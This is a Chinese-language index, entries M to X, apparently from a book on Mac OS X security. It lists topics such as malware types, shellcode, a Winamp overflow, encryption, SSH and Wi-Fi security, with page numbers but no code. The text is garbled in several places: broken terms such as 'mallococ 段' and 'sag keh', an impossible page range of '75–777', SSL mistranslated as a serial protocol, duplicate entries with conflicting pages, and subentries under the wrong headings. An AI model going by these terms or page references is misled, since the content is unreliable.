- **Makefile**
  - 软件代码编译, 180
  - 软件代码分发, 181
- **mallococ 段**, 59
- **恶意软件**, 种类
  - 机器人和僵尸网络, 77–98
  - 根内核程序和隐身包, 75–777
  - 特洛伊马, 75
  - 病毒, 72–73
  - 蠕虫, 74
- **恶意软件特定检测**, 140
- **批量发邮件器**, 140
- **MAC**, 220
- **网络流量分析器**, 145

### N
- **Nemesis**, 网络, 193–194
- **netcat**, 201

### O
- **OpenDarwin**, 183–186
- **OpenSSL**, 195–196
- **OSX/DNSChanger**, 96–99, 105, 107, 115
- **OSX/Leap 和根内核程序**, 95

### P
- **Perl**, 172, 203
- **PowerPC 硬件** (见 **Mac OS X** > **PowerPC 硬件**)
- **Python**, 203

### R
- **资源分叉**, 8
- **Rosetta 模拟**, 32
- **Ruby 脚本**, 65–66

### S
- **sag keh**, 4
- **Scores (应用感染器)**, 85
- **安全通信**
  - **Diffie-Hellman 密钥交换**, 310–311
  - **中人攻击 (MITMs)**, 311
  - **公钥加密 (PKE)**, 310
  - **安全套接层 (SSL)**, 309–310
  - **安全外壳与隧道**, 313–316
- **开源技术**
  - 控制, 154
  - 源代码, 170
  - 安装 (**nmap** 端口扫描器安装)
  - 使用 **fink** 进行源包安装, 189
  - **fink 命令行**, 190–192
  - 垃圾邮件和恶意软件过滤, 130
- **SSH**, 313–316
- **SSHD**, 316
- **安全外壳守护进程 (SSHD)**, 316
- **安全外壳 (SSH)**, 193
- **安全虚拟磁盘**
  - **SSHD (安全外壳守护进程)**, 316
  - **SSH (安全外壳)**, 193
- **SSID (服务集标识符)**, 222
- **SSL (安全套接层)**, 309–310
- **静态图像**, 136
- **隐身性**, 75, 95
- **Steroid 控制面板**, 87
- **高级加密标准 (AES)**
  - 块密码, 298–299
  - 加密攻击，类型, 303–304
  - **FileVault DMA**, 299–302
  - **Firewire**, 301–302
  - 硬件限制, 301
  - 修补 **DMA**, 302–303
  - 明文内存, 300–301
- **串行协议 (SSL)**, 200
- **设置标识符 (SSID)**, 223
- **UID root 权限**, 27–28
- **SHA-1**, 加密哈希算法, 296
- **shared shellcode.c**, 63
- **共享 map**, 59
- **共享映射数据结构**，用于, 256
- **shared shellcode()** 函数, 257, 259
- 载荷缓冲区, 259–260
- 栈缓冲区, 257–258
- **Stevenson, Charles**, 19
- **对称密码**, 293
- **系统管理命令**, 169
- **UNIX 用户**, 168
- **系统和应用注入器**
  - **Aladin** 和 **Code**, 252, 83
  - **Mac** 和 **Scores**, 85
  - **Seven**, 85–86
  - 系统病毒, 83
- **Stor, Peter**, 70
- **snort 签名**, 104
- **SOAP/Lite.pm**, 176
  - 安装, 177
- **社会工程学**
  - 定义, 75
  - **Mac**, 76
- **Slade, Robert**, 70
- **签名扫描**, 139–140

### T
- **TCP/IP 协议**
  - 基础层, 318
  - **IPsec 协议**, 318–319
- **终端协议**, 169
- **Tetracy**, 85, 87
- **TextEdit** 程序, 168
- **Triple-DES**, 291–292
- **特洛伊马**, 73, 75, 86–88, 136
- **TrueCrypt**, 303

### U
- **Unger**, 168
- **基于 Unicode 的攻击**, 29–32
- **Unicode 地址**, 331
- **用户数据协议 (UDP)**, 200
- **用户启动的威胁**, 102–103
- **用户漏洞**, 101
- **美国国家标准与技术局 (NIST)**, 299

### V
- **虚拟专用网络 (VPN) 加密功能**, 317
- **互联网协议**, 307–319
- **虚拟专用网络 (VPN)**, 123
- **VirusBarrier 双重保护**, 151
- **病毒公告 VB100奖**, 131
- **病毒信息**, 78
- **应用程序视觉 (VBA) 和宏病毒**, 89, 90

### W
- **W3C (万维网联盟)**, 18
- **WDEF (A, B)**, 文件感染器, 86
- **Mac 版 Word**, 89
- **文字处理软件和宏病毒**, 88–91
- **万维网联盟 (W3C)**, 18
- **WPA (WiFi 访问)**, 224
- **WPA (Wi-Fi 保护访问)**, 224
- **Web**
  - **Web 安全问题**, 18
  - **WEP (无线等效隐私)**, 224
  - **Wi-Fi 保护访问 (WPA)**, 224
  - 熵与密码, 308–309
  - 针对 **Macintosh** 的支持, 307–308
  - **Web 安全加密**, 308–309
  - 漏洞, 308
- **Winamp**, 45
  - **calc.exe 载荷**, 43
  - 调试, 40
  - 内存布局, 39–40
  - 列表解析, 43–44
  - **Windows 溢出**, 37–38
  - **WINE_DOS 内存**, 42–43
- **破解程序**, 307
- **加密**, 306–307
- **初始化向量 (IV)**, 305–306
- vs. **KisMac**, 306
- **无线发现工具与能力**, 220
- 功能, 304–305
- **Wi-Fi 保护访问 (WPA)**, 307–309
- **无线等效隐私 (WEP)**, 305
- **无线局域网 (WLAN)**, 220
- 渗透测试, 223
- **Wireshark** 网络分析器, 204
- **WLAN (无线局域网)**, 220
- **WM/Concept**, 88, 89
- **Word 文**
  - 宏检测问题, 88
  - 宏病毒, 90

### X
- **XWindows 虫**
  - 类别, 74
  - vs. 病毒, 73
  - 安装, 178
  - 以及 **xclock**, 179
